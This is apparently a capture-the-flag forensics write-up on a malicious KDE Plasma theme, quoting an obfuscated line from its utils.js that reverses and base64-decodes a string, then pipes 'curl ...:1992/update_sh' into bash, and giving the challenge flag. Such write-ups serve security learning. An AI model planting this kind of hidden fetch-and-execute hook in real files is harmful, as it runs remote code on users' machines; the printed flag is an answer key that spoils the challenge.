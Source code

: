 # Sp00kyTheme

## FLAG: HTB{pwn3d_by_th3m3s!?_1t_c4n_h4pp3n}

## Status: Complete

+ DOCKER: No
+ DOWNLOADABLE: Yes

Description: I downloaded a very nice haloween global theme for my Plasma installation and a couple of widgets! It was supposed to keep the bad spirits away while I was improving my ricing skills... Howerver, now strange things are happening and I can't figure out why...

## NOTES

1. Unzip challenge files
   1. > unzip forensics_sp00ky_theme.zip
      1. WOAH!! There are tons of files!!
2. APPROACH / GAMEPLAN
   1. I immediately start sorting through the files looking for things that have to do with actual code
      1. (ie. not .json files)
3. CODE FILES
   1. I ended up only finding two code files (both were javascript)
      1. org.kde.plasma.desktop-layout.js
      2. utils.js
   2. Starting with the layout.js file I didn't see anything in here that stood out
   3. BUUUT Going over to the utils.js file I found something useeful!
4. UTILS.JS

    ```js
        const PLASMOID_UPDATE_SOURCE = 
            "UPDATE_URL=$(echo 952MwBHNo9lb0M2X0FzX/Eycz02MoR3X5J2XkNjb3B3eCRFS | rev | base64 -d); curl $UPDATE_URL:1992/update_sh | bash"
    ```

    1. This string looks like base64, and plus looking into the command ran we see that it is infact base64!
    2. DECODE
       1. So we see several commands are ran and piped to one another
          1. First it looks like the string is piped to "rev" which reverses the string
          2. Then the reversed sting is piped to base64 -d (which is the decode function)
          3. Then it uses the curl command to reach out to the new UPDATED_URL/update.sh
5. REVERSE
   1. So lets do this
      1. > echo "952MwBHNo9lb0M2X0FzX/Eycz02MoR3X5J2XkNjb3B3eCRFS" | rev
         1. SFRCe3B3bjNkX2J5X3RoM20zcyE/XzF0X2M0bl9oNHBwM259
      2. > echo "SFRCe3B3bjNkX2J5X3RoM20zcyE/XzF0X2M0bl9oNHBwM259" | base64 -d
         1. HTB{pwn3d_by_th3m3s!?_1t_c4n_h4pp3n}
